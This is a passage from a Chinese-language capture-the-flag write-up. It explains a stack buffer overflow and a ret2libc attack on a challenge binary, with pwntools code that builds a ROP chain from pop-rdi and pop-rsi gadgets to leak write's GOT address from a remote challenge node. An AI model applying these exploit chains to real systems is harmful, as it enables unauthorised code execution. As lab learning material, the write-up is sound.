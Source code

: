 ```python
payload = b'A'* (56+4) + b'\x3C\x00\x00\x00' + b'C'*8 + p64(0x004011E2)
```

## 2 ret2libc

### 2.1 出题人你到底干了什么？

其实应该是很传统的写法，但因为写的时候还不会所以研究了一下：）

按步骤来展示一下！

首先获取write的plt地址和got地址，plt地址用于ret跳转，got地址是存放动态链接实际地址的地方，这里要当中buf地址传给write输出

```python
elf = ELF("--------/attachment")
libc = ELF("--------/libc.so.6")
write_plt = elf.plt['write']
print(hex(write_plt))
write_got = elf.got['write']
print(hex(write_got))
```

然后开始第一次输入，打印存放在got的动态链接地址。

由于是x64的程序，x64下通常参数从左到右依次放在rdi, rsi, rdx, rcx, r8, r9，多出来的参数才会入栈

也就是说write(1, buf,反正是个数就行)需要rdi=1, rsi=buf=got，rdx是个数就行我调的时候一直是0x200，就没管

通过`ROPgadget --binary attachment --only "pop|ret"`获取到

能够pop rdi --> p64(0x00401233)的地址，

和pop rsi --> p64(0x0401231) 的地址，这里没办法只有pop rsi, pop r15, ret的地方，只好多pop一个，我当时对了一下这个位置本来就是等于0的

参数准备好就可以跳转到write输出了！

要准备好write结束后的堆栈，重读一遍进行第二次栈溢出

```python
p = remote('node9.anna.nssctf.cn', 24553)

payload = (b'A'* (88+8+8) + p64(0x00401233) + p64(1) +
           p64(0x0401231) + p64(write_got) + p64(0) +
           p64(write_plt) + p64(0x040117B))
p.sendline(payload)
```

输出一下，拿到got存放的地址，输出很长如果没有换行符recvline()会报错

一开始我还以为是程序崩了（

```python
line = p.recvline()  # 接收一行数据
hex_string = line.hex()
print("[1]", line, ":", hex_string)

print("\n")
data = p.recv(8)
hex_string = data.hex()
print("[2]data= ", data, ":", hex_string)

line = p.recvline()  # 接收一行数据
hex_string = line.hex()
print("[3]", line, ":", hex_string)
```
